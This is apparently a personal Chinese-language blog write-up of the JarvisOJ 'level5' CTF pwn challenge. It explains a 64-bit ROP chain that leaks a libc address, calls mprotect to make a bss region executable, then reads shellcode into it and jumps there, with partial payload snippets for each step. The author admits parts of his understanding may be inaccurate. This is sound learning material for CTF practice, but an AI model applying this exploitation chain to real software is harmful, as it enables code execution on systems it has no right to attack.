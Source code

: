 ```yaml
---
title: JarvisOJ_PWN_Level5
date: 2019-11-21 18:42:16
tags:
- Sec
- CTF
- PWN
- JarvisOJ
categories:
- Sec
- CTF
- PWN
---
```

# 前言 #
和level3_x64的文件是一样的，不同的地方在于，这里假设不让使用system函数和execve函数。

题目提示了可以用mmap或mprotect。

嗯，两个听都没听过的东西。。。

直接找题解吧つ﹏⊂


**前排提醒，文章记录很乱，大概率对别人没什么帮助。愿意看就点下面吧，做好右上角的准备**
<!-- more -->

# 题解 #

大致看了下，这两个函数，觉得有点看的不是太懂。。。

（**以下感觉不太对，算是自己理解的，准确的还是应该查下网上的内容**）*
mmap好像是使一段文件和内存建立连接，修改其中一个，另一个也会发生改变。*

*mprotect的话，好像是修改一段区间的权限。权限表示方式好像和chmod一样*

看的题解好像都是使用的mprotect。
## 方法一 ##
### 第一步 ###
和之前一样，先输出write在内存中的地址。然后计算出offset.这样可以使用libc.so里的内容。
*(11.22留)*和level3一样，利用两个gadget，先输出了write_got，这样可以计算出偏移量，然后，可以利用so文件里面的gadget。使用ROPgadget在so文件里搜索'pop|ret'可以发现，存在pop rdx。
这样可以直接通过构造三个gadget来实现三个参数及其以内的函数调用.

    p1 = pad + p64(prdi) + p64(1)
 
    p1+= p64(prsi) + p64(write_got)
 
    p1+= '1' * 8 + p64(write_addr) + p64(addr_start)
这里的addr_start可以是vulnerable_function的地址
也可以是_start的地址。后者是从一篇WP里看到的，好像是以main函数为参数的函数，是程序的入口函数。
但感觉加上测试，vulnerable_funct的地址也可以。

### 第二步 ###
使用mprotect修改bss段的一段区间的权限，改为7.好像命令是以chmod的形式给出。
*（11.22留）*
个人觉得先修改权限比较合适，看起来像是修改了大段的地址，但是只利用了其中一小部分，看了下自动生成的len(shellcode)=48

    p2 = pad + p64(prdi) 
    p2+= p64(0x00600000) + p64(prsi) + p64(0x1000) + 'p2p2p2p2'
    p2+= p64(prdx) + p64(7) + p64(libc_mpro)
    p2+= p64(addr_start)


### 第三步 ###

找到bss地址，把shellcode写入到bss地址里。然后ret到shellcode上，开始执行代码
*11.22留:*

    p3 = pad + p64(prdi) + p64(0)
    p3+= p64(prsi) + p64(bss_addr+0x500) + 'deadbeef' 
    p3+= p64(prdx) + p64(0x100)
    p3+= p64(e.symbols['read'])
    p3+= p64(bss_addr + 0x500)

用read函数，确定一段地址后把shellcode写入进去，然后在ret里，再跳回这段地址，就可以正常执行了。
这里比较需要注意的点应该是要设置产生64位的shellcode，之前32位的一直不成功。。。设置了context.binary或者context.arch后就可以了


# 总结 #
这应该是写的最少的一次报告。

状态没那么好，真让我总结技术点，实在不知道总结些什么好。。。扯点场外：

题目是上午上课时写的，中午和下午一直在调程序，主要之前写的程序都属于自娱自乐的玩具，真的要发挥些作用时就发现，问题不少。比如，我连使用异常处理的习惯都没有，导致程序报错时直接崩溃了。再或者程序运行着忽然就卡住不动了，可能和资源释放有关系、也可能和timeout有关，结果就一直在看着程序跑。。。事后感觉，好蠢哦0.0 。。。应该放着程序跑，然后设定异常时警告之类的方法，然后专心做别的事，让人来监视着程序跑几个小时，emmm，好蠢0.0

【*11.22留*
今天没做新题，昨天只是把这一题给大致流程学习了下，但是没有自己动手写。今天一个白天都在调乱七八糟的小程序，越发觉得大坑都是一步一步跳进去的0.0
晚上去上课觉得还是要动手把这题写下，顺便像昨天那样的程序实在不忍心看，今天再修改吧。。。
这题还有一种很巧妙的解法，是利用了一连串pop和call加jnz的。觉得也特别巧妙，之后有时间把这种解法补上来】

有可能这篇报告会修改，但今天就先这样发着吧~*美其名曰，真实的记录学习过程つ﹏⊂*~


**：人一我百，人十我万，永不放弃，加油！**